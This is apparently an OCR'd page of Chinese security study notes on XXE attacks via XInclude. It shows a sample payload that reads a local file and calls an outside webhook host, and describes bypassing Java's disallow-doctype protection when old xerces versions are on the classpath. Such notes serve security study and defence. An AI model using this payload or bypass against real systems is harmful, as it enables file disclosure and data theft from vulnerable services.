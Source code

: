 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///d:/test.txt"/>
    <xi:include parse="text" href="https://webhook.uutool.cn/4pt2j105b8e0?xi"/>
</foo>
</root>
```



* 防御方式是否和外部dtd相同？
  * 不同，但是一般默认关闭

* 是否支持外带文件？
  * 一般不支持，因为无法像dtd中一样定义参数实体。但是一些XML预处理工具和XML Schema可能会提供一个外带的环境，这很依赖目标环境
* 是否支持报错回显文件？

#### 绕过禁止 Doctype 的 Feature

[Java XXE 漏洞做了 doctype 防护情况下的一种绕过案例 - 浅蓝 's blog](https://b1ue.cn/archives/387.html)

* XMLReaderFactory 是 JDK 的一个 XML 处理工厂类，xerces 是 Apache 的一个 XML 解析库，代码中处理传入的 XML 代码时使用了 `XMLReaderFactory.createXMLReader()`，并且在 classpath 下有 xerces 2.2.1 及以下版本时就会无视禁止 Doctype 的 Feature。
* 依赖

```xml
<!-- https://mvnrepository.com/artifact/xerces/xerces -->
<dependency>
    <groupId>xerces</groupId>
    <artifactId>xerces</artifactId>
    <version>2.2.1</version>
</dependency>
```

或

```xml
    <!-- https://mvnrepository.com/artifact/commons-jelly/commons-jelly -->
    <dependency>
        <groupId>commons-jelly</groupId>
        <artifactId>commons-jelly</artifactId>
        <version>1.0.1</version>
    </dependency>
```

* 代码写法，try代码块第一行禁止 Doctype 的 Feature抛出异常，导致后面的set也全部失效
